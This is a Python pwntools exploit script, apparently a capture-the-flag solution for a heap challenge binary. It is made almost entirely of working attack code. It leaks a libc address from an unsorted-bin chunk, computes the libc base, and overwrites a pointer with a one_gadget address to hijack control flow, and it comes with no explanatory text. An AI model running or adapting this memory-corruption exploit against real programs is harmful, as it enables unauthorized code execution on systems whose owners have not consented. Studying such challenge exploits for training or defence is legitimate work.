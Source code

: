 ```python
    slog['bheap'] = bheap
    unsorted_chunk = 0x13af0 + bheap
    slog['unsorted_chunk'] = unsorted_chunk

    payload = flat(0, unsorted_chunk+0x10, 0x100)
    new(1, payload)

    show()
    ru("name: ")
    while (1):
        main_arean = u64(re(8, 2))
        if main_arean == 0x3a6563696f68630a:
            raise EOFError;
        libc = main_arean - 0x3ebca0
        if (libc & 0xfff == 0):
            break;
    slog['main_arean'] = main_arean 
    slog['libc'] = libc 
    

def exp2():
    one = [0x4f3d5, 0x4f432, 0x10a41c]
    ogg = slog['libc'] + one[1]
    print("one: " + hex(ogg))
    pogg = slog['bheap'] + 0x13a98
    print("poop: " + hex(pogg))

    set(1)
    new(1, 'b' * 0x18)
    new(2, flat(pogg, ogg).ljust(0x18, b'c'))
    eat()


context.os='linux'

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

slog = {'name' : 111}
local = int(sys.argv[1])

if arch==64:
    context.arch='amd64'
if arch==32:
    context.arch='i386'

if local:
    cn = process('./rbin')
    # cn = process(['./ld', './bin'], env={"LD_PRELOAD":"./libc"})
else:
    cn = remote( )

elf = ELF('./bin')

re  = lambda m, t : cn.recv(numb=m, timeout=t)
recv= lambda      : cn.recv()
ru  = lambda x    : cn.recvuntil(x)
rl  = lambda      : cn.recvline()
sd  = lambda x    : cn.send(x)
sl  = lambda x    : cn.sendline(x)
ia  = lambda      : cn.interactive()
sla = lambda a, b : cn.sendlineafter(a, b)
sa  = lambda a, b : cn.sendafter(a, b)
```